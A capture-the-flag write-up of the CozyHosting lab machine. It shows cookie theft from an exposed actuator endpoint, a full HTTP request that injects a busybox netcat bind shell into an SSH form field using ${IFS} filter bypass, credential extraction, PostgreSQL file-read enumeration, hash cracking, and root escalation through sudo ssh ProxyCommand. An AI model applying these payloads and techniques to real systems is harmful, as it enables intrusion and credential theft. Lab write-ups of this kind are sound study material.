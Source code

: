 After scanning cozyhosting.htb with dirsearch.py I have discovered `/acutators/sessions` where are stored cookies -> cookie theft.

Next I've inspected the ssh connection fields and crafted a specific request that avoids white space filtering:

```r
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 79
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin?error=Invalid%20hostname!
Cookie: JSESSIONID=4518805508D8B807A774ACB7CF2BCD88
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

host=10.10.16.21&username=;busybox${IFS}nc${IFS}-l${IFS}-p1337${IFS}-e/bin/sh;#
```

After gaining a shell and gaining full TTY an enumartion starts:

```r
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
```


Inside application /app/.jar after downloading and unzipping, I've found database credentials:
```r
BOOT-INF/classes/application.properties
9-spring.datasource.platform=postgres
10-spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
11-spring.datasource.username=postgres
12:spring.datasource.password=Vg&nvzAQ7XxR
```

Getting into postgresql with an error: `FATAL: Peer authentication failed for user “postgres”`

```shell
psql --host=localhost --dbname=cozyhosting --username=postgres
```

pgsql enumeration:

```sql
select version();	
select current_database();
select current_user;
select session_user;
select current_setting('log_connections');
select current_setting('log_statement');
select current_setting('port');
select current_setting('password_encryption'); # scram-sha-256
select current_setting('krb_server_keyfile');
select current_setting('virtual_host');
select current_setting('port');
select current_setting('config_file');
select current_setting('hba_file');
select current_setting('data_directory');
select * from pg_shadow;
select * from pg_group;
create table myfile (input TEXT);
copy myfile from '/etc/passwd'; 
select * from myfile;copy myfile to /tmp/test;
```

tables:
```r
   name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin

 id | username  |      hostname
----+-----------+--------------------
  1 | kanderson | suspicious mcnulty
  5 | kanderson | boring mahavira
  6 | kanderson | stoic varahamihira
  7 | kanderson | awesome lalande
```

John cracks the bcrypt with rockyou.txt as password: `manchesterunited` 

# Privilege Escalation

Inspection of `sudo -l` is allowing to use `(root) /bin/ssh *`. Which means that binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

- Spawn interactive root shell through ProxyCommand option.

```shell
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```